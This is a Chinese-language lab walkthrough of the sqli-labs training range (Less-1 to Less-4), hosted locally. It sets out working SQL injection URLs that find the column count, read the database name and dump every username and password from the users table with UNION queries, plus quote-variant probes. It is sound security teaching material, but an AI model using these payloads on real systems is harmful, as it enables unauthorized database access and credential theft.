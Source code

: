 ### 安装配置

网上资料很多，自行安装即可！

我这边 phpstudy 注册的靶场域名是 `sqli:10001`

<br>

### Less-1 基于单引号字符型注入

#### 前期探测

我们先为 id 传入一个 1，发现可以正常的获取数据  
`http://sqli:10001/Less-1/?id=1`

![](../imgs/target/sqli/s11.png)

但是传入 0 时发现什么都没有！证明该数据表 id 列的最小边界值为 1  
`http://sqli:10001/Less-1/?id=0`

<br>

union 联合查询有一个特性，就是前后列数不一致时会返回报错信息，我们可以根据该报错信息来调整查询列数直到正好碰上正确的列数！

这里为了方便我们直接去看原始数据库，发现 users 表内仅有 3 列，故 union 查询时也需要 3 列！

![](../imgs/target/sqli/s12.png)

<br>

#### union

查询当前数据库名称：

1. 由于 union 会拼接前后查询结果，故令前面的 id=0 使得查询不出结果，就只能显示后面的结果了
2. 注意两次查询的列数一致性！
3. database()是获取当前数据库名称的一个方法
4. --+不多说，注释掉后面的所有代码

`http://sqli:10001/Less-1/?id=0' union select 1,2,database() --+`

![](../imgs/target/sqli/s13.png)

<br>

查询 users 表下的所有用户名及其密码：

1. `group_concat(username)` 表示将 users 表中的列 username 下的所有数据压缩成一行来显示
2. `group_concat(password)` 作用同上
3. `from users` 注意我们要提取的表名称！

`http://sqli:10001/Less-1/?id=0' union select 1,group_concat(username),group_concat(password) from users --+`

![](../imgs/target/sqli/s14.png)

<br>

concat_ws 的使用  
语法：concat_ws(spet,str1,str2)，spet 为分隔符，使用 16 进制表示，str1 和 str2 就是相互连接的两个字符串

`http://sqli:10001/Less-1/?id=0' union select 1,(select group_concat(concat_ws(0x7e,username,password))from users),3 --+`

<br>

### Less-2 基于错误的整型注入

即 `id=1 and 1=1 --+`

<br>

### Less-3 基于错误的单引号变形字符型注入

即 `id=1') and 1=1 --+`

<br>

### Less-4 基于错误的双引号变形字符型注入

即 `id=1") and 1=1 --+`
